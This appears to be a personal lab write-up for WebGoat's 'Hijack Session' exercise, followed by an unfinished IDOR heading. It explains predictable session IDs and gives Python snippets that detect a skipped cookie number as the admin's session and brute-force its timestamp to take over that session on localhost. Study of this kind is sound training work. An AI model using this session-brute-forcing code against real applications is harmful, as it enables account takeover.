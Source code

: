 
# Hijack Session
***
## Concept
Application developers who develop their own session IDs frequently forget to incorporate the complexity and randomness necessary for security. If the user specific session ID is not complex and random, then the application is highly susceptible to session-based brute force attacks.

## Goals
Gain access to an authenticated session belonging to someone else.
***
We can see that there's a login panel here
![[OWASP_top_10/IMG/Pasted image 20230916131425.png]]
and the hint says:
![[OWASP_top_10/IMG/Pasted image 20230916131527.png]]
![[OWASP_top_10/IMG/Pasted image 20230916131542.png]]
![[OWASP_top_10/IMG/Pasted image 20230916131553.png]]

when we login with the authentic user:
![[OWASP_top_10/IMG/Pasted image 20230916131715.png]]
We take the request in the repeater....we can see that the hijack cookie is being assigned:
![[OWASP_top_10/IMG/Pasted image 20230916131930.png]]
we send multiple requests and see the changes:
![[OWASP_top_10/IMG/Pasted image 20230916132402.png]]
there are few numbers missing in btw like 91 , 95 , also the hint says:
![[OWASP_top_10/IMG/Pasted image 20230916132452.png]]
so when we login , in between the admin also logins , so we need to hijack that session , But here’s the catch : we need to change the second part of the cookie too : the time stamp , so how do we do that?
So I wrote a code for this:
* first we send a request for the application so that it assigns us the cookie
```python
response = requests.post(f"http://localhost:8080/WebGoat/HijackSession/login/?username={username}&password={password}",headers={"Cookie":f"JSESSIONID={JSESSIONID}"},)
```
* now if the app assigns us the hijack cookie value , then set the session with the cookie
```
	current_session = None;
	for cookie in response.cookies:
		# now we need to look for the hijack cookie in the response:
		if cookie.name == "hijack_cookie":
			current_session = cookie.value
```
* repeat the process until we get a cookie with the difference of 2 in the first part , and take account of the admin cookie into a variable , also note the cookie start and end time -> why so that we can predict the timestamp also which is the 2nd part of the cookie
```python
if previous_session_ID:
		# then check for if there's a difference of 2:
		if current_session_ID - previous_session_ID == 2:
			print(f"{'[+]'*5} This is the admin session: {previous_session_ID+1} {'[+]'*5}",end="\n")
			session_found = previous_session_ID+1
			# now we need to record the time where we found
			session_found_start_time = previous_session_timestamp
			session_found_end_time = current_session_timestamp
			break
```
* Now when we have all the data we start a loop that will send each and every request to the server with the cookie and the timestamp , since we know the range , we can try every timestamp in that range
```python
for timestamp in range(session_found_start_time, session_found_end_time+1):
    # we will craft a request that will have that cookie of the admin
    response = requests.post(f"http://localhost:8080/WebGoat/HijackSession/login/?username={username}&password={password}",headers={"Cookie":f"JSESSIONID={JSESSIONID}; hijack_cookie={session_found_ID}-{timestamp};secure;"},)
    # we now print the response's that part which shows us if we succeeded or not
    feedback=response.text.split("feedback: ")[-1].strip()
    print(f"{session_found_ID}-{timestamp}: {feedback}")
```

# IDOR
since this is being referrenced by the object that is insecure
![[OWASP_top_10/IMG/Pasted image 20230815152058.png]]
